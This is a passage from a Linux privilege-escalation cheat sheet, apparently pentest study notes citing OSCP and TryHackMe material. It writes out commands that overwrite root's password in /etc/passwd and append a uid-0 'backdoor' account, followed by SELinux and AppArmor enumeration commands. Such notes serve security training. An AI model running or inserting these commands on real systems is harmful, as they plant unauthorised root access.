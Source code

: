 ```bash
cp /etc/passwd /tmp/passwd
replace "root:x:" "root:$(openssl passwd toor):" -- /tmp/passwd
mv /tmp/passwd /etc/passwd
```

or

Adding a new the root user:

```bash
echo "backdoor:$(openssl passwd toor):0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Id hash

```bash
hash-identifier
```

## SELinux

Check if SELinux is enable:

```bash
getenforce
```

## Apparmor

```bash
ls -la  /etc/apparmor.d
```

```bash
sudo aa-status
```

## Source

- <https://github.com/diego-treitos/linux-smart-enumeration>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- <https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html>
- <https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb>
- <https://tryhackme.com/room/linprivesc>
